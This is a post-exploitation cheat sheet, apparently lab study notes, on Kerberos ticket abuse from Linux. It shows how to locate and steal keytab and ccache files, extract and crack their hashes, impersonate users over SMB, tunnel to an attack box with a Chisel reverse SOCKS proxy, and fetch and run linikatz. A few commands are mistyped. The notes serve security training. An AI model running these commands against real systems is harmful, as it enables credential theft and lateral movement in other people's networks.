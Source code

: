 ```yaml
---
title: Pass the Ticket Linux
category: Post-Exploitation
tags: [ptt, credential, hunting, tgt, ticket, kerberos, keytab, ccache]
tools: ['limikatz', 'chisel', 'evil-winrm']
---
```


# Pass the Ticket Linux

- [Keytab](https://kb.iu.edu/d/aumh) files
- [ccache files](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html)

#### Linux auth via port forward

```bash
ssh david@example.com@10.129.204.23 -p 2222

# Check domain/kerberos information
realm list

# If unavailable check for sssd or winbind
ps -ef | grep -i "winbind\|sssd"
```

## Finding KeyTab files

- [kinit](https://web.mit.edu/kerberos/krb5-1.12/doc/user/user_commands/kinit.html) allows interaction with Kerberos
- Ticket is represented as a keytab file located by default at `/etc/krb5.keytab`

```bash
# Using find - Mus have r/w priv
find / -name *keytab* -ls 2>/dev/null

# Check crontab for kinit if keys have been renamed
crontab -l
```

### Finding ccache files

- credential cache or [ccache](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html)
- Remain valid while the users session lasts
- File path is the `KRB5CCNAME` environment variable
- As root or priv, impersonate a user using their `ccache` file while it is still valid

```bash
# Check file path
env | grep -i krb5
```

### Abusing KeyTab files - Shared folders

Impersonate a user using `kinit`.

```bash
# Confirm ticket being used
klist

# Impersate user Carlos
klist -k -t /opt/specialfiles/carlos.keytab

# Connect to smb share as Carlos
smbclient //dc01/carlos -k -c ls
```

> To keep the ticket from the current session, before importing the  keytab, save a copy of the ccache file present in the environment  variable `KRB5CCNAME`.

---

## KeyTab Extract - Secrets

Abuse Kerberos and extract secrets from keytab file.

### Extracting KeyTab hashes with [KeyTabExtract](https://github.com/sosdave/KeyTabExtract)

- use John/Hashcat or [CrackStation](https://crackstation.net/)

The script will extract information such as the realm, Service Principal, Encryption Type, and Hashes.

```bash
# Get hashes
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab

# Crack with your flavour and login
su - carlos@example.com

# Attempt lat movement
klists
contab -l

# Find .kt file and crack
python3 /opt/keytabextract.py /home/carlos@example.com/.scripts/svc_workstations.kt

```

- Check crontab and klists again to attempt lateral movement; srv accouts or user with sudo priv

> With the NTLM hash, we can perform a Pass the Hash attack. With the  AES256 or AES128 hash, we can forge our tickets using Rubeus or attempt  to crack the hashes to obtain the plaintext password.

## Abusing KeyTab ccache

Once we have read permission to the ccache in `/tmp` with sudo permission we can abuse

```bash
# Privesc to root
ssh svc_workstations@example.com@10.129.204.23 -p 2222
sudo -l
sudo su; whoami

#

# Looking for ccache files
ls -la /tmp

# Identifying group membership and look for admins
id julio@example.com
```

### Importing the ccache file into our current session

To use a ccache file, copy the ccache file and assign the file path to the `KRB5CCNAME` variable.

```bash
# Check and export
klist
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=/root/krb5cc_647401106_I8I133

# Verify and ls machine
klist
smbclient //dc01/C$ -k -c ls -no-pass
```

> klist displays the ticket information. We must consider the values  "valid starting" and "expires." If the expiration date has passed, the  ticket will not work. `ccache files` are temporary. They may change or expire if the user no longer uses them or during login and logout operations.

---

## Using Linux attack tools with Kerberos

To use Kerberos, we need to proxy our traffic via `MS01` with a tool such as [Chisel](https://github.com/jpillora/chisel) and [Proxychains](https://github.com/haad/proxychains) and edit the `/etc/hosts` file to hardcode IP addresses of the domain and the machines we want to attack.

### [Chisel](https://github.com/jpillora/chisel)

#### Host file and Proxychains

```bash
cat /etc/hosts

# Host addresses
172.16.1.10 example.com   inlanefreight   dc01.example.com  dc01
172.16.1.5  ms01.example.com  ms01

cat /etc/proxychains.conf
[ProxyList]
socks5 127.0.0.1 1080
```

#### Download Chisel to attack box

```bash
wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_* chisel && chmod +x ./chisel
sudo ./chisel server --reverse
```

#### Connect to RDP and execute chisel

```bash
xfreerdp /v:10.129.204.23 /u:david /d:example.com /p:Password2 /dynamic-resolution
```

```cmd
# Client IP is attack box
chisel.exe client 10.10.14.33:8080 R:socks
```

Transfer Julio's ccache file from `LINUX01` and create the environment variable `KRB5CCNAME` with the value corresponding to the path of the ccache file. See 02_Access/File-Transfers.

```bash
export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

### Impacket

To use the Kerberos ticket, specify our target machine name (not the IP address) and use the option `-k`. If prompted for a password, include the option `-no-pass`.

```bash
proxychains impacket-wmiexec dc01 -k
```

### [Evil-WinRM](https://github.com/Hackplayers/evil-winrm)

Install the Kerberos package used for network authentication `krb5-user`. Will prompt for domain and computer name. If installed change the configuration file `/etc/krb5.conf`.

```bash
# Install package
sudo apt-get install krb5-user -y

# Launch
proxychains evil-winrm -i dc01 -r example.com
```

### [Linikatz](https://github.com/CiscoCXSecurity/linikatz) - Move lateraly

> Bringing Mimikatz et al to UNIX". In addition to the main linikatz.sh  script, this also includes auditd policies, John the Ripper rules,  Metasploit post-exploitation modules and fuzzers. 

```bash
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh
./linikatz.sh

# Find compute keytab file with access to other systems
./linikatz

# Initialize
kinit LINUX01$ -k -t /path/to/keytab

# Get whatever
smbclient //dc01/linux01 -k -c 'get /flag.txt /root/flag.txt'
```



